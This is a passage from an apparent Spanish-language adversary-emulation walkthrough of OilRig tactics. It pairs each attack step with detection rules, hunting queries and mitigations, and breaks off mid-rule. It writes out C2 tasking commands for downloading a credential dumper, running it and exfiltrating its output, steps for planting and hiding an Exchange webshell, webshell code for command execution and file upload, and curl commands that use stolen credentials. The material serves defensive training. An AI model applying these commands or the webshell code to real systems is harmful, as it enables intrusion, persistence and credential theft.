- `C:\Users\gosta\AppData\Roaming\b.exe`: Ruta de destino en el sistema objetivo
- `|b.exe`: Nombre del archivo en el servidor C2

**Proceso en el sistema objetivo:**
1. SideTwist recibe la instrucción durante su próximo beacon (máx. 5 minutos)
2. Realiza una petición HTTP GET al C2 para obtener el payload b.exe
3. El C2 responde con b.exe cifrado con XOR y codificado en Base64
4. SideTwist decodifica y descifra el archivo
5. Escribe b.exe en `C:\Users\gosta\AppData\Roaming\b.exe`
6. Reporta éxito al C2

**Paso 2: Ejecución de VALUEVAULT**

```bash
./evalsC2client.py --set-task goTb '101 C:\Users\gosta\AppData\Roaming\b.exe'
```

**Desglose del comando:**
- `101`: Código de operación para ejecución de comando
- El comando ejecuta b.exe (VALUEVAULT)

**Funcionamiento de VALUEVAULT:**

VALUEVAULT es una implementación en Go del concepto "Windows Vault Password Dumper". Realiza los siguientes pasos:

1. **Enumeración de Vaults**
   ```go
   // Abre el Windows Vault usando la API VaultEnumerateVaults
   VaultEnumerateVaults(0, &vaultCount, &vaultGuid)
   ```

2. **Acceso a Ítems del Vault**
   ```go
   // Para cada vault, enumera los ítems almacenados
   VaultOpenVault(vaultGuid, 0, &vaultHandle)
   VaultEnumerateItems(vaultHandle, 512, &itemCount, &items)
   ```

3. **Extracción de Credenciales**
   ```go
   // Obtiene las credenciales en texto claro
   VaultGetItem(vaultHandle, &itemGuid, 0, &item)
   ```

4. **Escritura de Resultados**
   - VALUEVAULT crea un archivo SQLite: `fsociety.dat`
   - Ubicación: `C:\Users\gosta\AppData\Roaming\fsociety.dat`
   - Estructura de la base de datos:
     ```sql
     CREATE TABLE credentials (
         url TEXT,
         username TEXT,
         password TEXT
     );
     ```

**Tipos de credenciales extraídas:**
- Credenciales guardadas de Internet Explorer/Edge
- Credenciales de aplicaciones Windows
- Credenciales de red (shares SMB, etc.)
- Credenciales genéricas almacenadas por aplicaciones

**Paso 3: Exfiltración de Resultados**

```bash
./evalsC2client.py --set-task goTb '103 C:\Users\gosta\AppData\Roaming\fsociety.dat'
```

**Desglose del comando:**
- `103`: Código de operación para subida de archivo
- Especifica la ruta de `fsociety.dat` para exfiltración

**Proceso de exfiltración:**

1. SideTwist lee el contenido de `fsociety.dat`
2. Cifra el contenido usando XOR con la misma clave estática
3. Codifica el resultado en Base64
4. Envía el archivo al C2 mediante HTTP POST
5. El C2 recibe y almacena el archivo en `./files/fsociety.dat`

**Paso 4: Análisis de Credenciales Obtenidas**

En el servidor C2, el operador examina las credenciales:

```bash
ls ./files
cat ./files/fsociety.dat
```

**Credenciales descubiertas (ejemplo):**
```
URL: https://waterfalls.boom.box/owa
Username: BOOMBOX\gosta
Password: d0ntGoCH4$ingW8trfalls
```

Este es un hallazgo crítico: la contraseña en texto claro de Gosta permite a los atacantes:
- Autenticarse como Gosta en servicios de red
- Acceder al Outlook Web Access (OWA)
- Utilizar credenciales para movimiento lateral hacia el servidor Exchange
- Potencialmente acceder a otros servicios donde Gosta reutiliza la contraseña

##### **Análisis del Malware: VALUEVAULT**

**Características Técnicas:**

1. **Lenguaje de Programación:** Go (Golang)
   - Facilita compilación multiplataforma
   - Produce binarios standalone sin dependencias
   - Dificulta análisis estático y reversión

2. **APIs de Windows Utilizadas:**
   ```
   vaultcli.dll:
   - VaultEnumerateVaults
   - VaultOpenVault
   - VaultEnumerateItems
   - VaultGetItem
   - VaultCloseVault
   ```

3. **No Requiere Privilegios Elevados:**
   - Opera dentro del contexto del usuario actual
   - Solo accede a credenciales del usuario, no de sistema
   - No dispara UAC ni requiere bypass de privilegios

4. **Salida en SQLite:**
   - Formato estructurado y fácilmente consultable
   - Permite procesamiento automatizado por el atacante
   - Nombre del archivo ("fsociety.dat") es referencia a la serie Mr. Robot

**Comparación con Otras Herramientas:**

| Herramienta | Privilegios Requeridos | Objetivo | Detección |
|-------------|----------------------|----------|-----------|
| VALUEVAULT | Usuario estándar | Windows Vault | Baja |
| Mimikatz | Administrador/SYSTEM | Memoria LSASS | Alta |
| LaZagne | Usuario estándar | Múltiples fuentes | Media |
| Windows Credential Editor | Administrador | Memoria | Alta |

**Ventajas Operacionales para el Atacante:**
- No requiere escalación de privilegios
- Usa APIs legítimas (difícil de bloquear)
- Binario personalizado (sin firmas de AV/EDR)
- Exfiltración integrada con C2 existente

##### Oportunidades de Detección

**Nivel de Archivo:**

1. **Creación de fsociety.dat**
   ```
   Ubicación: C:\Users\*\AppData\Roaming\fsociety.dat
   Tipo: Base de datos SQLite
   Proceso creador: b.exe (desde AppData)
   ```

2. **Ejecución desde AppData**
   ```
   Archivo: b.exe
   Ubicación: C:\Users\gosta\AppData\Roaming\
   Sin firma digital
   Proceso padre: SystemFailureReporter.exe
   ```

**Nivel de API:**

1. **Acceso a Windows Vault APIs**
   - Proceso inusual llamando a VaultEnumerateVaults
   - Múltiples llamadas a Vault APIs en secuencia rápida
   - Llamadas desde proceso no firmado en AppData

**Detección con Sysmon:**

```xml
<Sysmon schemaversion="4.82">
  <EventFiltering>
    <!-- Detectar ejecución de ejecutables desde AppData -->
    <RuleGroup name="Execution from Temp Directories">
      <ProcessCreate onmatch="include">
        <Image condition="contains">\AppData\Roaming\</Image>
      </ProcessCreate>
    </RuleGroup>

    <!-- Detectar creación de archivos .dat en AppData -->
    <RuleGroup name="Suspicious File Creation">
      <FileCreate onmatch="include">
        <TargetFilename condition="end with">.dat</TargetFilename>
        <TargetFilename condition="contains">\AppData\Roaming\</TargetFilename>
      </FileCreate>
    </RuleGroup>
  </EventFiltering>
</Sysmon>
```

**Indicadores de Red:**

- POST request con contenido SQLite codificado
- Transferencia de archivo pequeño (~5-50 KB típicamente)
- Patrón: Descarga → Ejecución → Subida en ventana de ~15-30 minutos

**Búsqueda Proactiva (Threat Hunting):**

```powershell
# Buscar ejecuciones desde AppData con acceso a Vault
Get-WinEvent -FilterHashtable @{
    LogName='Microsoft-Windows-Sysmon/Operational'
    ID=1  # Process Creation
} | Where-Object {
    $_.Properties[4].Value -like '*\AppData\*' -and
    $_.Properties[4].Value -like '*.exe'
}

# Buscar archivos .dat recientemente creados
Get-ChildItem -Path "C:\Users\*\AppData\Roaming" -Filter "*.dat" -Recurse -ErrorAction SilentlyContinue |
Where-Object { $_.CreationTime -gt (Get-Date).AddDays(-7) }
```

##### **Estrategias de Mitigación**

**Prevención:**

1. **Política de Almacenamiento de Credenciales**
   - Educar a usuarios sobre riesgos de guardar credenciales en navegadores
   - Implementar gestor de contraseñas corporativo con cifrado adicional
   - Deshabilitar almacenamiento automático de credenciales vía GPO:
     ```
     Computer Configuration → Administrative Templates →
     Windows Components → Credential User Interface →
     "Require trusted path for credential entry" = Enabled
     ```

2. **Restricción de Ejecución**
   - AppLocker: Bloquear ejecución desde %APPDATA%
   - Windows Defender Application Control (WDAC)
   - Regla de ejemplo:
     ```xml
     <FilePathRule>
       <Conditions>
         <FilePathCondition Path="%APPDATA%\*.exe" />
       </Conditions>
       <Exceptions />
       <Action Type="Deny" />
     </FilePathRule>
     ```

3. **Credential Guard**
   - Habilitar Windows Defender Credential Guard (Windows 10 Enterprise)
   - Proporciona protección adicional basada en virtualización
   - No protege Vault, pero dificulta ataques a LSASS

**Detección:**

1. **EDR con Detección de Comportamiento**
   - Monitorear llamadas a APIs de Vault desde procesos inusuales
   - Detectar patrones de descarga → ejecución → exfiltración

2. **Auditoría de Acceso a Credenciales**
   - Habilitar "Audit Credential Validation" en GPO
   - Monitorear Event ID 4648 (Logon with explicit credentials)

3. **Análisis de Tráfico de Red**
   - DLP para detectar exfiltración de bases de datos SQLite
   - Inspeccionar payloads Base64 en tráfico HTTP

**Respuesta:**

1. **Contención Inmediata:**
   - Aislar el sistema de la red
   - Deshabilitar cuenta de usuario comprometida
   - Forzar reset de contraseña de Gosta

2. **Análisis Forense:**
   - Adquirir memoria RAM para análisis
   - Examinar `fsociety.dat` si aún existe
   - Revisar historial de comandos ejecutados

3. **Remediación:**
   - Eliminar b.exe y fsociety.dat
   - Limpiar Windows Vault del usuario
   - Verificar si las credenciales fueron usadas para acceso indebido

4. **Hunting Extendido:**
   - Buscar b.exe en otros sistemas
   - Identificar otros sistemas donde Gosta ha iniciado sesión
   - Revisar logs de autenticación para uso de credenciales robadas

---

### **Fase 2: Movimiento Lateral hacia Exchange**

#### **Paso 4: Instalación del Web Shell en EWS**

##### **Objetivo de la Actividad**

Establecer persistencia adicional en el servidor Exchange (WATERFALLS) mediante la instalación del webshell personalizado TwoFace, que proporcionará acceso remoto independiente del implante SideTwist y permitirá ejecutar comandos con privilegios de SYSTEM.

##### **Contexto del Escenario**

Con las credenciales de Gosta obtenidas en el paso anterior, los atacantes ahora poseen capacidad para acceder al servidor Exchange. Sin embargo, en lugar de depender únicamente de credenciales robadas, OilRig establece un mecanismo de acceso más permanente y sigiloso: un webshell ASP.NET.

El webshell se instala en el directorio de Exchange Web Services (EWS), donde se mezcla con los archivos legítimos de ASP.NET del servidor Exchange. Esta ubicación es estratégica porque:
1. Los archivos .aspx son legítimos en ese directorio
2. El servidor IIS ya está configurado para ejecutar código ASP.NET
3. El acceso se realiza mediante HTTPS legítimo (puerto 443)
4. Ejecuta con privilegios de SYSTEM (contexto de IIS/ApplicationPoolIdentity)

##### **Técnicas MITRE ATT&CK**

**T1105 - Ingress Tool Transfer**
- TwoFace (contact.aspx) se descarga vía SideTwist
- El archivo se transfiere del C2 al sistema comprometido

**T1570 - Lateral Tool Transfer**
- contact.aspx se copia desde THEBLOCK hacia WATERFALLS
- Utiliza SMB administrativo (C$) con credenciales de Gosta

**T1505.003 - Server Software Component: Web Shell**
- Instalación de webshell en servidor web legítimo (IIS/Exchange)
- Proporciona acceso persistente vía HTTP/HTTPS

**T1564.001 - Hide Artifacts: Hidden Files and Directories**
- Uso del atributo +h para ocultar el webshell
- Dificulta descubrimiento mediante navegación visual

**T1070.004 - Indicator Removal on Host: File Deletion**
- Eliminación de contact.aspx de THEBLOCK después de copiar a WATERFALLS
- Reduce evidencia forense en el sistema inicial

##### **Flujo de Ejecución Técnica**

**Paso 1: Descarga del Webshell a THEBLOCK**

```bash
./evalsC2client.py --set-task goTb '102 C:\Users\Public\contact.aspx|contact.aspx'
```

**Proceso:**
1. SideTwist recibe la instrucción de descargar contact.aspx
2. Realiza petición GET al C2 (192.168.0.4:443)
3. Recibe contact.aspx cifrado y codificado
4. Descifra y guarda en `C:\Users\Public\contact.aspx`

**Nota de implementación:**
En la emulación con CALDERA, el archivo se descarga primero a la ubicación del agente (`C:\Users\gosta\AppData\Local\SystemFailureReporter\`) y luego se copia a `C:\Users\Public\`. Esto es una variación técnica pero el resultado operacional es el mismo.

**Paso 2: Copia del Webshell al Servidor Exchange**

```bash
./evalsC2client.py --set-task goTb '101 copy C:\Users\Public\contact.aspx "\\10.1.0.6\C$\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews\"'
```

**Desglose del comando:**
- `copy`: Comando de Windows para copiar archivos
- `C:\Users\Public\contact.aspx`: Archivo origen
- `\\10.1.0.6\C$\...`: Ruta UNC al share administrativo C$ de WATERFALLS
- Destino: Directorio EWS de Exchange Server

**Autenticación:**
- Utiliza el token de seguridad actual de Gosta
- Gosta es miembro de "EWS Admins", lo que proporciona acceso administrativo a WATERFALLS
- No se requiere especificar credenciales explícitamente (single sign-on Kerberos)

**Ruta completa de instalación:**
```
\\10.1.0.6\C$\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews\contact.aspx
```

Esta ruta es accesible vía web como:
```
https://10.1.0.6/ews/contact.aspx
```

**Paso 3: Ocultar el Webshell**

```bash
./evalsC2client.py --set-task goTb '101 attrib +h "\\10.1.0.6\C$\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews\contact.aspx"'
```

**Propósito:**
- Establece el atributo "oculto" en contact.aspx
- El archivo no aparece en exploraciones de archivos normales
- Requiere `dir /a:h` o configuración de "mostrar archivos ocultos" para verlo

**Limitaciones de esta técnica:**
- No oculta de herramientas forenses
- No oculta de listados recursivos con parámetros apropiados
- No oculta de escaneos de seguridad que ignoran atributos

**Paso 4: Eliminación de Evidencia Local**

```bash
./evalsC2client.py --set-task goTb '101 attrib +h "\\10.1.0.6\C$\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews\contact.aspx" & del C:\Users\Public\contact.aspx'
```

(Este comando combina el atributo oculto y la eliminación en una sola línea)

**Propósito:**
- Eliminar contact.aspx de THEBLOCK
- Reduce el footprint del atacante
- Dificulta reconstrucción forense del ataque
- Mantiene solo una copia del webshell (en WATERFALLS)

##### **Análisis del Malware: TwoFace Webshell**

**Arquitectura de TwoFace:**

TwoFace es un webshell de dos etapas, aunque en esta emulación se usa una versión simplificada de una sola etapa que combina todas las funcionalidades.

**Arquitectura Original (CTI):**
1. **Etapa 1 (loader):** Webshell mínimo que carga la segunda etapa desde archivo o URL
2. **Etapa 2 (funcional):** Webshell completo con todas las capacidades

**Arquitectura de Emulación (simplificada):**
- Un único archivo contact.aspx con todas las capacidades
- Funciones de upload, download y ejecución de comandos integradas

**Lenguaje y Tecnología:**
- ASP.NET (C# en código behind)
- Compilado dinámicamente por IIS al primer acceso
- Ejecuta en el contexto del Application Pool de Exchange

**Características Principales:**

1. **Autenticación NTLM Integrada**
   - Requiere credenciales válidas de dominio para acceder
   - Utiliza autenticación de Windows IIS
   - No hay backdoor password hardcodeado
   - Los atacantes usan credenciales de Gosta: `BOOMBOX\gosta:d0ntGoCH4$ingW8trfalls`

2. **Ejecución de Comandos (cmd)**
   ```csharp
   // Parseo de parámetros
   string program = Request.Form["pro"];  // ej: cmd.exe
   string command = Request.Form["cmd"];  // ej: whoami

   // Ejecución
   Process.Start(new ProcessStartInfo {
       FileName = program,
       Arguments = "/c " + command,
       RedirectStandardOutput = true,
       UseShellExecute = false
   });
   ```

3. **Upload de Archivos al Servidor (Arbitrary Folder Upload)**
   ```csharp
   // Parámetros
   string uploadIndicator = Request.Form["upl"];     // "f1"
   string savePath = Request.Form["sav"];             // ej: C:\Windows\Temp\
   string newName = Request.Form["nen"];              // ej: m64.exe
   HttpPostedFile file = Request.Files["f1"];         // archivo subido

   // Guardado
   file.SaveAs(Path.Combine(savePath, newName));
   ```

4. **Download de Archivos desde el Servidor (File Download)**
   ```csharp
   // Parámetro
   string downloadPath = Request.Form["don"];  // ej: C:\Windows\Temp\01.txt

   // Descarga
   Response.TransmitFile(downloadPath);
   Response.ContentType = "application/octet-stream";
   ```

5. **Eliminación de Archivos Temporales**
   ```csharp
   // Limpieza de archivos subidos/descargados
   File.Delete(tempFilePath);
   ```

**Flujo de Uso del Webshell:**

```bash
# Ejemplo: Ejecutar comando whoami
curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' \
     -k -X POST \
     --data "pro=cmd.exe" \
     --data "cmd=whoami" \
     https://10.1.0.6/ews/contact.aspx
```

**Parámetros:**
- `--http1.1`: Forzar HTTP/1.1 (compatibilidad)
- `--ntlm`: Usar autenticación NTLM
- `-u 'boombox\gosta:...'`: Credenciales de dominio
- `-k`: Ignorar errores de certificado SSL
- `--data "pro=cmd.exe"`: Programa a ejecutar
- `--data "cmd=whoami"`: Comando a pasar al programa

**Respuesta:**
```
nt authority\system
```

(El webshell ejecuta como SYSTEM porque IIS/Exchange típicamente opera bajo este contexto)

##### **Camuflaje y Evasión**

**1. Nombre del Archivo: contact.aspx**
- Nombre genérico que podría ser legítimo en un servidor Exchange
- No levanta sospechas al revisar listados de archivos
- Similar a otros archivos en el directorio EWS (auth.aspx, default.aspx, etc.)

**2. Ubicación Estratégica**
```
\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews\
```
- Directorio que legítimamente contiene archivos .aspx
- Mezclado con decenas de otros archivos ASP.NET
- Difícil de identificar sin análisis de contenido

**3. Autenticación Legítima**
- Requiere credenciales válidas de dominio
- No se puede acceder sin autenticación
- Escaneos automatizados sin credenciales no lo detectarán como webshell

**4. Sin Indicadores Obvios**
- No contiene strings típicos de webshells (ej: "c99", "r57", "shell", etc.)
- Código ofuscado o con variables con nombres legítimos
- Funciona exactamente como componente de Exchange desde perspectiva de red

**5. Tráfico HTTPS Legítimo**
- Las peticiones al webshell son HTTPS hacia Exchange Server
- Indistinguibles de tráfico legítimo de OWA/EWS
- Misma dirección IP y puerto que servicios legítimos

##### **Oportunidades de Detección**

**Nivel de Red:**

1. **Acceso SMB Admin (C$) desde Workstation**
   ```
   Source: THEBLOCK (10.1.0.5)
   Destination: WATERFALLS (10.1.0.6)
   Protocol: SMB (445/TCP)
   Share: \\10.1.0.6\C$
   Path: \Program Files\Microsoft\Exchange Server\...
   ```
   - Workstations típicamente no acceden shares administrativos de servidores
   - Inusual que workstation copie archivos a directorio de Exchange

2. **Creación de Archivo en Directorio EWS**
   ```
   Event ID: 4663 (Attempt to access object)
   Object Name: ...\ews\contact.aspx
   Access: WriteData
   Process: System
   Account: BOOMBOX\gosta
   ```

**Nivel de Archivo:**

1. **Nuevo Archivo .aspx en Directorio EWS**
   - Monitorear creación de archivos en directorios de aplicaciones web
   - Especialmente archivos no firmados o no parte de instalación

2. **Atributos de Archivo Sospechosos**
   - Archivo .aspx con atributo oculto (+h)
   - Fecha de creación reciente en directorio estable
   - Falta de firma digital (archivos de Microsoft están firmados)

**Detección con File Integrity Monitoring (FIM):**

```xml
<!-- OSSEC rule example -->
<rule id="550" level="7">
  <if_sid>554</if_sid>
  <match>Program Files\Microsoft\Exchange Server\V15\ClientAccess</match>
  <description>File added to Exchange Server directory</description>
</rule>
```

**Detección mediante Análisis de Código:**

```powershell
# Buscar archivos .aspx con funcionalidades sospechosas
Get-ChildItem "C:\Program Files\Microsoft\Exchange Server" -Recurse -Filter "*.aspx" |
ForEach-Object {
    $content = Get-Content $_.FullName -Raw
    if ($content -match "ProcessStartInfo|Process\.Start|cmd\.exe|Request\.Form") {
        Write-Output "Suspicious: $($_.FullName)"
    }
}
```

**Indicadores de Comportamiento:**

1. **Ejecución de cmd.exe desde w3wp.exe**
   ```
   Parent Process: w3wp.exe (IIS Worker Process)
   Child Process: cmd.exe
   Command Line: cmd.exe /c [comando]
   User: NT AUTHORITY\SYSTEM
   ```

2. **Acceso a Archivos Sensibles por IIS**
   - IIS (w3wp.exe) leyendo archivos fuera de directorios web estándar
   - Acceso a SAM, SYSTEM, archivos de usuario, etc.

**Detección con Sysmon:**

```xml
<Sysmon>
  <EventFiltering>
    <ProcessCreate onmatch="include">
      <ParentImage condition="end with">w3wp.exe</ParentImage>
      <Image condition="end with">cmd.exe</Image>
    </ProcessCreate>
  </EventFiltering>
</Sysmon>
```

**Hunting con Logs de IIS:**

```powershell
# Buscar POSTs a archivos .aspx inusuales
Get-Content "C:\inetpub\logs\LogFiles\W3SVC1\*.log" |
Select-String "POST /ews/contact.aspx" |
ForEach-Object {
    $fields = $_ -split ' '
    [PSCustomObject]@{
        Date = $fields[0]
        Time = $fields[1]
        ClientIP = $fields[8]
        Method = $fields[3]
        URI = $fields[4]
        Status = $fields[11]
    }
}
```

##### **Estrategias de Mitigación**

**Prevención:**

1. **File Integrity Monitoring (FIM)**
   - Monitorear directorios de Exchange con OSSEC, Tripwire, o similar
   - Alertar sobre cualquier modificación/creación de archivos .aspx
   - Línea base de archivos legítimos post-instalación

2. **Principio de Menor Privilegio**
   - Los administradores de Exchange no deberían tener acceso write a directorios de aplicación desde workstations
   - Separar cuentas administrativas de cuentas de uso diario
   - Implementar estaciones de trabajo administrativas dedicadas (PAW)

3. **Application Whitelisting en Servidores Web**
   - Solo permitir ejecución de procesos específicos desde IIS
   - Denegar spawning de cmd.exe, powershell.exe desde w3wp.exe
   - Implementar con Windows Defender Application Control (WDAC):
     ```xml
     <Deny>
       <ParentProcess>w3wp.exe</ParentProcess>
       <ChildProcess>cmd.exe</ChildProcess>
     </Deny>
     ```

4. **Segmentación de Red**
   - Workstations no deberían tener acceso SMB directo a servidores
   - Implementar firewall de host en servidores para restringir SMB a solo servidores de gestión

**Detección:**

1. **EDR en Servidores Exchange**
   - Monitorear spawning de procesos sospechosos desde IIS
   - Detectar acceso a archivos sensibles por w3wp.exe
   - Alertar sobre ejecución de herramientas de pentesting (mimikatz, psexec, etc.)

2. **Network Behavior Analytics**
   - Detectar tráfico SMB inusual (workstation → server)
   - Identificar acceso a shares administrativos desde endpoints no autorizados

3. **Regular Webshell Scanning**
   - Escanear directorios web con herramientas como NeoPI, BackdoorMan
   - Buscar patrones de código sospechosos en archivos .aspx
   - Comparar hash de archivos con baseline conocido

**Respuesta:**

1. **Contención Inmediata:**
   - Eliminar contact.aspx del servidor Exchange
   - Revisar logs de IIS para identificar comandos ejecutados
   - Cambiar contraseñas de cuentas comprometidas (Gosta)
   - Aislar WATERFALLS si hay actividad maliciosa activa

2. **Análisis Forense:**
   - Adquirir logs de IIS completos
   - Examinar journal NTFS para identificar cuándo se creó el archivo
   - Revisar logs de autenticación para rastrear uso de credenciales

3. **Erradicación:**
   - Verificar que no existan otros webshells
   - Escanear todos los servidores IIS de la organización
   - Revisar permisos en directorios de aplicaciones web

4. **Recuperación:**
   - Restaurar configuración de Exchange desde backup limpio si es necesario
   - Implementar FIM antes de volver a producción
   - Forzar rotación de credenciales de todas las cuentas administrativas

**Lecciones Aprendidas:**

- Implementar FIM es crítico en servidores de aplicaciones
- Administradores no deberían trabajar con cuentas privilegiadas desde workstations
- Monitoreo de spawning de cmd.exe desde IIS es detector efectivo
- Webshells en Exchange son vector común en campañas APT

---

#### **Paso 5: Reconocimiento del Servidor EWS**

##### Objetivo de la Actividad

Utilizar el webshell TwoFace para ejecutar comandos de reconocimiento en el servidor Exchange (WATERFALLS), identificando la configuración del sistema, conexiones de red activas y especialmente localizando el servidor SQL (ENDOFROAD).

##### Contexto del Escenario

Con el webshell TwoFace instalado en WATERFALLS, los atacantes ahora pueden ejecutar comandos directamente en el servidor Exchange con privilegios de SYSTEM, sin depender del implante SideTwist en THEBLOCK. Esta nueva capacidad permite a los atacantes:

- Ejecutar comandos con máximos privilegios (SYSTEM vs. usuario estándar)
- Acceder directamente al servidor sin pasar por la estación de trabajo
- Operar de forma más sigilosa desde la perspectiva del sistema original comprometido
- Acceder al servidor desde cualquier ubicación con credenciales de Gosta

Los comandos de reconocimiento se ejecutan desde la plataforma de ataque Linux usando `curl` con autenticación NTLM, proporcionando un canal de comando y control completamente independiente.

##### Técnicas MITRE ATT&CK

**T1505.003 - Server Software Component: Web Shell**
- Uso continuo del webshell TwoFace para ejecución de comandos
- El webshell opera con privilegios de SYSTEM en contexto IIS

**T1033 - System Owner/User Discovery**
- Identificación del usuario bajo el cual opera el webshell
- Confirmación de privilegios elevados

**T1016 - System Network Configuration Discovery**
- Enumeración de configuración de red del servidor Exchange
- Identificación de interfaces de red y direccionamiento IP

**T1049 - System Network Connections Discovery**
- Análisis de conexiones de red activas
- Descubrimiento del servidor SQL mediante conexiones establecidas

##### Flujo de Ejecución Técnica

**Preparación del Entorno**

Desde la plataforma de ataque Linux (192.168.0.4), el operador cambia al directorio que contiene los payloads de TwoFace:

```bash
cd /opt/oilrig/Resources/payloads/TwoFace
```

Este directorio contiene herramientas adicionales que se utilizarán en pasos posteriores (Mimikatz, PsExec, RDAT).

**Comando 1: Identificación del Usuario Actual**

```bash
curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' \
     -k -X POST \
     --data "pro=cmd.exe" \
     --data "cmd=whoami" \
     https://10.1.0.6/ews/contact.aspx
```

**Desglose técnico:**
- `--http1.1`: Forzar protocolo HTTP/1.1 (compatibilidad con Exchange/IIS)
- `--ntlm`: Especificar autenticación NTLM de Windows
- `-u 'boombox\gosta:...'`: Credenciales de dominio robadas en Paso 3
- `-k`: Ignorar validación de certificado SSL (certificado auto-firmado)
- `-X POST`: Método HTTP POST
- `--data "pro=cmd.exe"`: Parámetro que especifica el programa a ejecutar
- `--data "cmd=whoami"`: Parámetro con el comando a pasar a cmd.exe

**Respuesta esperada:**
```
nt authority\system
```

**Análisis del resultado:**
- El webshell ejecuta con privilegios máximos de Windows
- SYSTEM tiene control completo sobre el servidor Exchange
- Permite operaciones que requieren privilegios administrativos

**Comando 2: Configuración de Red del Servidor**

```bash
curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' \
     -k -X POST \
     --data "pro=cmd.exe" \
     --data "cmd=ipconfig /all" \
     https://10.1.0.6/ews/contact.aspx
```

**Información obtenida:**
```
Ethernet adapter Ethernet0:
   Connection-specific DNS Suffix  : boombox.local
   IPv4 Address: 10.1.0.6
   Subnet Mask: 255.255.255.0
   Default Gateway: 10.1.0.1
   DNS Servers: 10.1.0.4 (DISKJOCKEY)

   Host Name: WATERFALLS
   Primary Dns Suffix: boombox.local
```

**Valor táctico:**
- Confirma la dirección IP del servidor (10.1.0.6)
- Identifica la infraestructura DNS (controlador de dominio)
- Confirma pertenencia al dominio boombox.local
- Mapea la topología de red

**Comando 3: Conexiones de Red Activas (CRÍTICO)**

```bash
curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' \
     -k -X POST \
     --data "pro=cmd.exe" \
     --data "cmd=netstat -an" \
     https://10.1.0.6/ews/contact.aspx
```

**Salida relevante (extracto):**
```
Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:443            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
  TCP    10.1.0.6:52341         10.1.0.7:1433          ESTABLISHED
  TCP    10.1.0.6:52342         10.1.0.7:1433          ESTABLISHED
  TCP    10.1.0.6:52343         10.1.0.7:1433          ESTABLISHED
```

**Análisis crítico:**
- **Puerto 1433**: Puerto estándar de Microsoft SQL Server
- **10.1.0.7**: Dirección IP del servidor SQL
- **ESTABLISHED**: Múltiples conexiones activas hacia SQL Server
- **Implicación**: El servidor Exchange mantiene conexiones persistentes con un SQL Server

**Correlación con inteligencia previa:**
- En el Paso 2, se identificó al usuario "tous" como miembro de "SQL Admins"
- Ahora se confirma la existencia y ubicación del servidor SQL
- Se establece la relación entre Exchange y SQL

##### **Hallazgos Clave**

**1. Confirmación de Privilegios**
- Ejecución como SYSTEM en WATERFALLS
- Máximo nivel de acceso en el servidor Exchange
- Capacidad de acceder a recursos sensibles del sistema

**2. Topología de Red**
- Servidor Exchange: WATERFALLS (10.1.0.6)
- Controlador de Dominio/DNS: DISKJOCKEY (10.1.0.4)
- Servidor SQL descubierto: 10.1.0.7 (Puerto 1433)

**3. Objetivo Identificado**
- El servidor SQL en 10.1.0.7 se convierte en el próximo objetivo
- Las conexiones activas indican que es un servidor en producción
- Puerto 1433 (MSSQL) confirma el tipo de servicio

**4. Ruta de Ataque**
- Para acceder a 10.1.0.7, se necesitan credenciales de "tous"
- El siguiente paso lógico es el robo de credenciales privilegiadas
- El servidor Exchange es la plataforma ideal para ejecutar Mimikatz

##### Oportunidades de Detección

**Nivel de Red:**

1. **Tráfico HTTPS inusual hacia Exchange**
   ```
   Source: 192.168.0.4 (externa, IP de atacante)
   Destination: 10.1.0.6:443 (WATERFALLS)
   Pattern: Peticiones POST repetidas a /ews/contact.aspx
   Frequency: Comandos individuales en intervalos cortos
   ```
   - IPs externas no deberían acceder directamente a EWS desde Internet
   - Patrón de peticiones no coincide con cliente OWA/Outlook legítimo

2. **Autenticación desde ubicaciones anómalas**
   ```
   Event ID: 4624 (Logon)
   Account: BOOMBOX\gosta
   Source: 192.168.0.4
   Service: HTTPS/Exchange
   ```
   - Gosta típicamente se autentica desde 10.1.0.5 (THEBLOCK)
   - Autenticación desde red externa es altamente anómala

**Nivel de Aplicación (IIS):**

1. **Logs de IIS sospechosos**
   ```
   Date: 2025-10-19
   Time: 14:32:15
   Client-IP: 192.168.0.4
   Method: POST
   URI: /ews/contact.aspx
   Query: -
   Status: 200
   BytesSent: 342
   User-Agent: curl/7.68.0
   ```

**Indicadores clave:**
- User-Agent: `curl/7.68.0` (herramienta de línea de comandos, no navegador)
- URI no estándar (`contact.aspx` no es parte de EWS legítimo)
- Múltiples POSTs consecutivos con respuestas pequeñas

**Nivel de Host (Exchange Server):**

1. **Spawning de cmd.exe desde IIS**
   ```
   Parent Process: C:\Windows\System32\inetsrv\w3wp.exe
   Parent PID: 2456
   Child Process: C:\Windows\System32\cmd.exe
   Child Command Line: cmd.exe /c whoami
   User: NT AUTHORITY\SYSTEM
   ```

2. **Múltiples procesos cmd.exe de corta duración**
   ```
   Event ID: 4688 (Process Creation)
   Time 14:32:15 - cmd.exe /c whoami (Duration: 0.2s)
   Time 14:32:47 - cmd.exe /c ipconfig /all (Duration: 0.3s)
   Time 14:33:12 - cmd.exe /c netstat -an (Duration: 0.4s)
   ```

**Detección con Sysmon:**

```xml
<Sysmon>
  <EventFiltering>
    <!-- Detectar w3wp.exe spawning cmd.exe -->
    <RuleGroup name="Webshell Activity">
      <ProcessCreate onmatch="include">
        <ParentImage condition="end with">w3wp.exe</ParentImage>
        <Image condition="end with">cmd.exe</Image>
      </ProcessCreate>
    </RuleGroup>

    <!-- Detectar múltiples comandos de reconocimiento -->
    <RuleGroup name="Discovery Commands from IIS">
      <ProcessCreate onmatch="include">
        <ParentImage condition="end with">w3wp.exe</ParentImage>
        <CommandLine condition="contains any">whoami;ipconfig;netstat</CommandLine>
      </ProcessCreate>
    </RuleGroup>
  </EventFiltering>
</Sysmon>
```

**Reglas de Detección:**

```yaml
# Sigma Rule: Webshell Command Execution
title: Webshell Command Execution en Exchange Server
status: experimental
description: Detecta ejecución de comandos de reconocimiento desde IIS en servidor Exchange
logsource:
